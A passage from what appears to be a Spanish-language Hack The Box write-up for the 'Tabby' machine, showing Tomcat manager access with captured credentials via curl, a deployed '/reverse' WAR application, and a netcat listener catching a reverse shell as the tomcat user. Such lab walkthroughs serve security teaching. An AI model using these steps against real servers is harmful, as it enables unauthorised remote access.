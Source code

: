 Si listamos otra vez las aplicaciones web, debería aparecer la que acabamos de subir:
```bash
curl -s -X GET "http://10.10.10.194:8080/manager/text/list" -u 'tomcat:$3cureP4s5w0rd123!'                                    
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/reverse:running:0:reverse
/host-manager:running:1:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```

Genial, solo levanta una **netcat** y entra en esa página web:
```bash
nc -nvlp 443   
listening on [any] 443 ...
```

<p align="center">
<img src="/assets/images/htb-writeup-tabby/Captura15.png">
</p>

Observa la **netcat**, ya deberías estar conectado:
```bash
nc -nvlp 443   
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.194] 43382
whoami
tomcat
```

Obtén una shell interactiva y continuemos.

<h2 id="Metas">Instalando Aplicación Web .WAR con Metasploit</h2>
